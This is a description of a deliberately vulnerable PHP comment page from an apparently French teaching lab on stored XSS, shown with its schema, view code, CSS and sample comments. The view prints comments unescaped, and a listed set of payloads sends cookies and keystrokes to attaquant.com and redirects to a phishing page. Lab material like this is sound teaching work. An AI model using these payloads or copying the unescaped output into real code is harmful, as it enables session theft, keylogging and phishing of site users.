

/vuln/commentaire_vuln.php, run on the app's committed database (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE IF NOT EXISTS commentaires (
    id INT AUTO_INCREMENT PRIMARY KEY,
    auteur VARCHAR(100) DEFAULT 'Anonyme',
    contenu TEXT NOT NULL,
    date_creation DATETIME DEFAULT CURRENT_TIMESTAMP,
    membre_id INT,
    modere TINYINT(1) DEFAULT 0,
    FOREIGN KEY (membre_id) REFERENCES membres(id) ON DELETE SET NULL,
    INDEX idx_date (date_creation)
);

### src/vuln/commentaire_vuln.php (the view, shortened to what this page needs)
<?php
require_once __DIR__ . '/../init.php';
include __DIR__ . '/../templates/header.php';
$stmt = $pdo->query("SELECT * FROM commentaires ORDER BY date_creation DESC");
$commentaires = $stmt->fetchAll();
?>
<h2> Partie D - XSS Stockee (Commentaires)</h2>
<div class="danger-box">
    <strong>[VULN] VERSION VULNERABLE</strong><br>
    Les commentaires sont affiches sans Echappement. XSS stockee possible !
</div>
<h3>Ajouter un commentaire</h3>
<form method="POST">
    <label for="auteur">Votre nom :</label>
    <input type="text" name="auteur" id="auteur" placeholder="Votre nom">
    <label for="commentaire">Commentaire :</label>
    <textarea name="commentaire" id="commentaire" rows="4" placeholder="Votre commentaire..."></textarea>
    <button type="submit"> Publier</button>
</form>
<h3>Commentaires</h3>
<?php if (empty($commentaires)): ?>
    <p>Aucun commentaire pour le moment.</p>
<?php else: ?>
    <?php foreach ($commentaires as $c): ?>
        <div class="comement-box">
            <strong><?= $c['auteur'] ?></strong>
            <small>(<?= $c['date_creation'] ?>)</small>
            <p><?= $c['contenu'] ?></p>
        </div>
    <?php endforeach; ?>
<?php endif; ?>
<h3> Exploitation possible</h3>
<p>Postez ce commentaire malveillant :</p>
<div class="code-block">
&lt;script&gt;alert('XSS Stockee!')&lt;/script&gt;
&lt;script&gt;
new Image().src = 'http://attaquant.com/steal.php?cookie=' + document.cookie;
&lt;/script&gt;
&lt;script&gt;
document.onkeypress = function(e) {
    new Image().src = 'http://attaquant.com/log.php?key=' + e.key;
}
&lt;/script&gt;
&lt;script&gt;window.location = 'http://attaquant.com/phishing.html'&lt;/script&gt;
</div>
<h3> Questions</h3>
<ol>
    <li>Quelle est la difference entre XSS reflte et XSS stockee ?</li>
    <li>Pourquoi la XSS stockee est-elle plus dangereuse ?</li>
    <li>Comement corriger cette faille  a l'affichage ?</li>
    <li>Faut-il aussi valider  a l'insertion ? Pourquoi ?</li>
</ol>
<p><a href="../secure/commentaire_secure.php">Voir la version securisee</a></p>
    </main>
    </main>\r\n</div>\r\n</body>\r\n</html>

### src/templates/header.php (style rules this page uses)
*, *::before, *::after { box-sizing: border-box; margin: 0; padding: 0; }
:root { --bg: #f5f5f5; --bg-alt: #fff; --text: #171717; --text-muted: #525252; --border: #000; --accent: #000; --accent-hover: #fff; --gray-100: #f5f5f5; --gray-200: #e5e5e5; --gray-300: #d4d4d4; --gray-400: #a3a3a3; --gray-500: #737373; --gray-600: #525252; --gray-700: #404040; --gray-800: #262626; --gray-900: #171717; --black: #000; --white: #fff; --transition: 0.2s cubic-bezier(0.4, 0, 0.2, 1); }
body { font-family: 'Inter', -apple-system, BlinkMacSystemFont, 'Segoe UI', sans-serif; background: var(--bg); color: var(--text); min-height: 100vh; line-height: 1.6; transition: background var(--transition), color var(--transition); }
h1, h2, h3 { color: var(--black); font-weight: 600; letter-spacing: -0.02em; }
h2 { font-size: 1.25rem; padding-bottom: 15px; margin-bottom: 20px; border-bottom: 2px solid var(--black); }
h3 { font-size: 1rem; margin: 25px 0 15px 0; }
p { margin-bottom: 15px; color: var(--gray-700); }
form { margin: 25px 0; }
label { display: block; margin-bottom: 8px; font-weight: 500; font-size: 0.875rem; color: var(--black); }
input[type="text"], input[type="password"], input[type="email"], input[type="file"], textarea, select { width: 100%; padding: 14px 16px; margin-bottom: 20px; border: 2px solid var(--black); background: var(--white); font-size: 0.875rem; font-family: inherit; transition: all var(--transition); }
button, input[type="submit"] { background: var(--black); color: var(--white); padding: 14px 32px; border: 2px solid var(--black); cursor: pointer; font-size: 0.875rem; font-weight: 500; font-family: inherit; transition: all var(--transition); text-transform: uppercase; letter-spacing: 0.05em; }
.code-block, code { background: var(--gray-900); color: var(--gray-100); padding: 20px; overflow-x: auto; font-family: 'JetBrains Mono', 'Fira Code', monospace; font-size: 0.8125rem; line-height: 1.7; border: 2px solid var(--black); }
.danger-box { background: var(--white); border: 2px solid var(--black); border-left: 6px solid var(--black); padding: 20px; margin: 25px 0; }
.comement-box { background: var(--gray-100); border: 2px solid var(--black); padding: 20px; margin: 15px 0; }
.comement-box strong { color: var(--black); }
.comement-box small { color: var(--gray-500); margin-left: 10px; }
.comement-box p { margin-top: 10px; margin-bottom: 0; }
ul, ol { margin: 15px 0; padding-left: 25px; }
li { margin-bottom: 8px; color: var(--gray-700); }

### data on the page
commentaires: auteur "Jean", date_creation "2026-01-14 13:40:11", contenu "Super association ! Les entraîneurs sont top."
commentaires: auteur "Marie", date_creation "2026-01-14 13:40:11", contenu "J'ai adoré le cours de yoga cette semaine."
commentaires: auteur "Anonyme", date_creation "2026-01-14 13:40:11", contenu "Vivement la prochaine compétition !"
commentaires: auteur "Pierre", date_creation "2026-01-14 13:40:11", contenu "Le terrain de foot est en excellent état."
